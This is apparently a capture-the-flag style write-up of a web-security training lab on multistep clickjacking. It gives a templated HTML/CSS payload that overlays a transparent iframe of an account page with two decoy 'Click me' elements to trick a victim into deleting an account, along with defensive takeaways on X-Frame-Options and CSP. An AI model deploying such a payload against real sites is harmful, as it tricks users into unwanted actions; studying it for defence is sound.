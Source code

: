 # Clickjacking - Multistep clickjacking

## 📌 Lab Details
- **Title**: Multistep clickjacking
- **Difficulty**: Practitioner
- **Category**: Clickjacking
- **Lab URL**:

## 🔍 Summary
This lab demonstrates **bypassing a confirmation dialog anti-clickjacking defense** by using **two layered decoy elements (“Click me first” and “Click me next”)** to trick the victim into first clicking the “Delete account” button, then confirming deletion in the dialog.

## 🛠 Steps to Solve
1. Log in to the given account.
2. Inject the **mulit clickjacking** payload on the **Exploit** server:
   ```sh
   <style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:$top_value1;
		left:$side_value1;
		z-index: 1;
	}
   .secondClick {
		top:$top_value2;
		left:$side_value2;
	}
   </style>
   <div class="firstClick">Click me first</div>
   <div class="secondClick">Click me next</div>
   <iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
   ```
3. Adjust the values of the template to align both `Click me first` and `Click me next` to the appropriate buttons.
4. Deliver exploit to the victim to complete the lab.

## 📖 Key Takeaways
- Uses **two precisely aligned decoy divs** to guide the victim’s sequential clicks on hidden buttons within a transparent iframe.
- Reinforces the need for `X-Frame-Options` or CSP `frame-ancestors` since visual confirmation dialogs alone do not stop clickjacking.

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/7cbcbb2c-2e9c-4ca7-9442-45665fb9a1ae)
![image](https://github.com/user-attachments/assets/900e64d1-9c53-4dd7-bdf7-1591c27e64a6)
![image](https://github.com/user-attachments/assets/a5097b95-9336-4723-8f40-f00bcf5c039a)
![image](https://github.com/user-attachments/assets/8f418e16-94e4-4fe0-a595-d8fe2d32324c)
